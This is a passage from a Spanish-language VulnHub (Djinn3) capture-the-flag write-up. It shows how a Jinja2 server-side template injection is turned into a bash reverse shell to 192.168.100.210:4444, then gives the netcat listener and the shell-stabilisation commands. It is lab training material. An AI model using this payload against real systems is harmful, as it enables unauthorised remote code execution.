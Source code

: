 En ambos campos tenemos una inyección SSTI.

Vamos a aprovechar esto como punto de entrada para obtener una shell.

{% raw %}
```plaintext
{{ config.__class__.__init__.__globals__['os'].popen("nohup bash -c 'bash -i >& /dev/tcp/192.168.100.210/4444 0>&1'") }}
```
{% endraw %}

![alt text](/assets/img/writeups/vulnhub/djinn3/image-13.png)

Ponemos en escucha el puerto 4444 y hacemos que cargue la plantilla.

```bash
nc -nlvp 4444
```

![alt text](/assets/img/writeups/vulnhub/djinn3/image-14.png)

![alt text](/assets/img/writeups/vulnhub/djinn3/image-15.png)

## Explorando el sistema

Ahora podemos estabilizar la shell y explorar el sistema.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
CRTL+Z
stty raw -echo ; fg
ENTER
export TERM=xterm
```
